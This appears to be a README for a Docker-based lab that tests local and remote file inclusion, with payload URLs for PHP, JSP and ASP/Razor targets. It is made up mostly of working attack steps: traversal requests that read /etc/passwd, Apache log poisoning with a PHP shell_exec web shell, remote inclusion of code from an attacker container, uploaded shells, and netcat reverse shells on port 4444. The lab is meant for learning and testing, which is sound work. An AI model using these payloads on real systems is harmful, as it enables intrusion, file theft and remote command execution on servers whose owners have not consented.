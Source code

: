# Payloads

For an in-detail-description of the following payloads go to [https://secf00tprint.github.io/blog/payload-tester/lfirfi/en](https://secf00tprint.github.io/blog/payload-tester/lfirfi/en)

## RFI

For the RFI payloads you have to change the IP to the IP from the internal network in every link. Use `docker inspect <docker_attacker_id>` to get the IP.

## PHP

### RFI 
[http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?](http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?)

see `allow_url_include` in response

### etc/passwd

[http://127.0.0.1:8883/lfi.php?page=/etc/passwd](http://127.0.0.1:8883/lfi.php?page=/etc/passwd)

By way of experiment add `../` before `etc/passwd` until ...

[http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd](http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd)

### Log Injection

Get `access.log`: 

Changed here to `access_combined.log`. The used docker image pipes `access.log` to stdout, so the default log of the apache is know changed. (If somebody knows a way to change `access.log`->`stdout` for this image to write both to stdout and in the file help would be appreciated, please mail me):

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log)

Then use:

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

and

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id)

Check for uid in output

### LFI

#### Verification

Upload check.php from attacker-server src folder

then:

[http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check)

#### Exploit

Upload shell.php
[http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell)

then:

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

### LFI

Upload runme.jsp for Remote Code Execution:

- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls)
- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd)

### RFI

(You have to adjust ip addresses to the attacker server in the docker network)

- [http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor](http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor)
- [http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls)

## ASP / Razor

Use [https://github.com/StefanScherer/windows-docker-machine](https://github.com/StefanScherer/windows-docker-machine) to get a windows docker environment

Upload the files and call:

`SimpleEchopayload.cshtml`

[http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml](http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml)

`WinLfiPayload.cshtml`

[http://192.168.99.90:8080/?test=WinLfiPayload.cshtml](http://192.168.99.90:8080/?test=WinLfiPayload.cshtml)

`CheckPowerShell.cshtml`

[http://192.168.99.90:8080/?test=CheckPowerShell.cshtml](http://192.168.99.90:8080/?test=CheckPowerShell.cshtml)

`RevShell.cshtml`, change IP to attacker server ip in the file

nc -nlvp 4444 at attacker server, then:

[http://192.168.99.90:8080/?test=RevShell.cshtml](http://192.168.99.90:8080/?test=RevShell.cshtml)

